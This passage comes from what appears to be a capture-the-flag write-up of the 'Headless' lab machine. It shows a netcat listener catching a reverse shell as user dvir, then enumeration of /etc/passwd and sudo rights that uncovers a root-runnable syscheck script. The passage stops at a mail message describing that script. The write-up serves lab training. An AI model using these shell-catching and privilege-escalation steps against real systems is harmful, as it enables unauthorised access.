 And we got a shell as user `dvir`.
```
➜  ~ nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.78] from (UNKNOWN) [10.129.233.92] 60588
bash: cannot set terminal process group (1176): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ 
dvir@headless:~$ wc -c user.txt
33 user.txt
```
![Im_in_the_box](https://i.imgur.com/lWYk9IB.png)
## Shell as root

### Enumeration

There is only `root` & `dvir`.
```bash
dvir@headless:~$ cat /etc/passwd | grep "bash"
root:x:0:0:root:/root:/bin/bash
dvir:x:1000:1000:dvir,,,:/home/dvir:/bin/bash
dvir@headless:~$
```

`sudo -l` tells that `dvir` can run `syscheck` as root.

```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
``` 
### syscheck script
Also looked at `/var/mail/dvir` which provides information about the `syscheck` script.
```
Subject: Important Update: New System Check Script

Hello!

We have an important update regarding our server. In response to recent compatibility and crashing issues, we've introduced a new system check script.

What's special for you?
- You've been granted special privileges to use this script.
- It will help identify and resolve system issues more efficiently.
- It ensures that necessary updates are applied when needed.

Rest assured, this script is at your disposal and won't affect your regular use of the system.

If you have any questions or notice anything unusual, please don't hesitate to reach out to us. We're here to assist you with any concerns.

By the way, we're still waiting on you to create the database initialization script!
Best regards,
Headless
```
